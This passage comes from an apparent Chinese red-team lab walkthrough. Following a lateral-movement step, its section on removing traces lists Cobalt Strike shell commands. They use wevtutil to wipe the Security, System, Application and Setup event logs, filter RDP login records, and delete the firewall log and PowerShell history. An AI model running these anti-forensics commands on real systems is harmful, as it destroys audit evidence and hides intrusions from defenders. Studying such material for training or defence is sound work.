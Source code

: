 ![image-20231117144739019](./ATT&CK%E5%AE%9E%E6%88%98%E7%B3%BB%E5%88%97%E2%80%94%E2%80%94%E7%BA%A2%E9%98%9F%E5%AE%9E%E6%88%98%EF%BC%88%E4%B8%80%EF%BC%89.assets/image-20231117144739019.png)

横向成功！！！

### CS痕迹清楚

根据入侵的路径依次删除上传的工具、删除Web日志、FTP日志等。

清除安全日志

```
shell wevtutil cl Security
```

清除系统日志，

```
shell wevtutil cl System
```

清除应用日志

```
shell wevtutil cl Application
```

清除启动日志

```
shell wevtutil cl Setup
```

清除RDP登录日志

```bash
shell wevtutil epl Security C:\Windows\System32\winevt\Logs\Security_new.evtx /q:"*[EventData[(Data[@Name='IpAddress']!='127.0.0.1')]]" /ow:true 
```

删除防火墙日志

```
shell del C:\Windows\System32\LogFiles\Firewall\pfirewall.log
```



删除PowerShell执行历史记录

```bash
shell del 
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
